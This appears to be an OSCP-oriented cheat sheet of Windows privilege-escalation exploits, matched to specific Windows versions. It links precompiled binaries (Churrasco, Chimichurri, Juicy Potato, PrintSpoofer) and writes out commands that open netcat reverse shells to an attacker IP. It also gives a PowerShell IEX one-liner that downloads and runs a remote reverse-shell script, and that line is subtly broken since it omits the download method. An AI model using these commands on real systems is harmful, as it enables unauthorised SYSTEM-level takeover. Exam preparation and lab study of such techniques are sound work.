 # OSCP-TOOLS

# Windows Server 2003 old windows :

--> If SEImpersonate is Enabled use following exploit - https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
--> Upload nc binary and execute following command.

~ Command : .\churrasco.exe -d "nc.exe <attacker-ip> <attacker-port> -e cmd.exe"

# Windows Server 2008 R2 DataCenter :

--> If 6.1.7600 N/A Build 7600 version then use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

# Microsoft Windows 7 Enterprise :

--> If 6.1.7600 N/A Build 7600 version then use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

~ Command : exploit.exe <attacker-ip> <attacker-port>

# Juicy Potato attacks :

$_Affected_Windows_Verisons

    Windows_10_Enterprise
    Windows_10_Pro
    Windows_7_Enterprise
    Windows_8.1_Enterprise
    Windows_Server_2008_R2_Enterprise
    Windows_Server_2012_Datacenter

📌 Juicy Potato does not work for Windows Server 2019 and Windows 10 versions 1809 and higher. - https://github.com/ohpe/juicy-potato/releases

--> For CLSID - http://ohpe.it/juicy-potato/CLSID/

~ Command : juicypotato.exe -l 1337 -t * -p "C:\Windows\Tasks\nc.exe" -a "IP PORT -e cmd.exe"
    TIP : If upper command doesn't work then try to do the following thing:
    1. Get ready with the nishang reverse shell script edit it with necessary data.
    Then create a bat file on any machine with IEX file downloader one-liner.--- echo powershell -c "IEX (new-object net.webclient).('http://10.10.16.5/shell.ps1')" > shell.bat ---
    2. Then host a python web server and download the .bat file in target machine. After downloading run it as follows:
    3. .\jp.exe -t * -l 1337 -p shell.bat (This will give shell as NT Authority\System) If this doesn't work then also change the CLSID using -c parameter.

# PrintSpoofer Exploit on SEImpersonate : 

--> If the host is Windows Server 2016, 2019 or Windows 10 use this exploit if it has SEImpersoante permission - https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe

